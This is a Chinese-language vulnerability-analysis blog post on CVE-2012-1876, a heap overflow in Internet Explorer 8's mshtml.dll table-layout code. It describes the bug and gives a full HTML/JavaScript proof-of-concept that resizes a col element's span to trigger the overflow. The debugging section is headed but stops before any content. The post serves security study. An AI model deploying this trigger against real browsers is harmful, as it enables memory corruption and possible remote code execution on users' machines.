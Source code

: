 ```yaml
---
title: CVE-2012-1876调试分析
date: 2019-07-10 20:19:25
tags: pwn
---
```


## CVE-2012-1876

### 1. 漏洞简介

一个IE漏洞，成功利用可RCE，问题在mshtml.dll模块的CTableLayout::CalculateMinMax函数中，程序在执行时会以HTML代码中\元素的span属性作为循环控制次数向堆空间写入数据，如果此span值设置的不当，那么就会触发堆溢出问题。

其中mshtml.dll模块是IE中的重要组件，用来解析HTML和CSS。（微软官方说明https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/aa741312(v=vs.85)）

系统：Win7 Pro x86

版本：IE8.0.7601.17514




### 2. PoC

```html
<html>
<body>
    <table style="table-layout:fixed" >
        <col id="132" width="41" span="6" >&nbsp </col>
    </table>

    <script>

    function over_trigger() {
        var obj_col = document.getElementById("132");
        obj_col.width = "42765";
        obj_col.span = 666;
    }

    setTimeout("over_trigger();",1);

    </script>
</body>
</html>
```

上述代码的功能十分清晰，最开始时span的属性值为6，而后通过js中的over_trigger函数将其动态更新为666，当然，更新后的值可以是任意的，只要能保证溢出就可以。另外，width的属性值和写入堆空间的内容有关。



### 3. 调试
